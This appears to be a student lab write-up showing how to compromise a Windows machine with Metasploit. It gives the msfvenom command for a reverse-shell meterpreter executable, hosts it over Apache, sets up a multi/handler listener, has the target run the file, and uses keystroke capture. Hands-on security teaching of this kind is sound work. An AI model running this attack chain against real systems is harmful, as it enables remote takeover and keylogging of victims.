 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

## OUTPUT:
![alt text](ifconfig.png)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![alt text](<VirtualBox_Parrot Security 6.0_19_04_2025_22_11_04.png>)

copy the fun.exe into the apache /var/www/html folder
![alt text](fun.png)

Start apache server sudo systemctl apache2 start
![alt text](Apaches.png)

Check the status of apache2
![alt text](<apache sta.png>)

Invoke msfconsole:
## OUTPUT:
![alt text](msfconsole.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![alt text](help.png)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![alt text](<VirtualBox_Parrot Security 6.0_19_04_2025_22_31_48.png>)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![alt text](VirtualBox_windows7_20_04_2025_12_42_34.png)


Bypass any warning boxes, double-click the file, and allow it to run.

![alt text](VirtualBox_windows7_20_04_2025_12_43_42.png)

On kali give the command exploit

![alt text](exploit.png)

keyscan_dump	Shows the keystrokes captured so far

![alt text](image.png)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
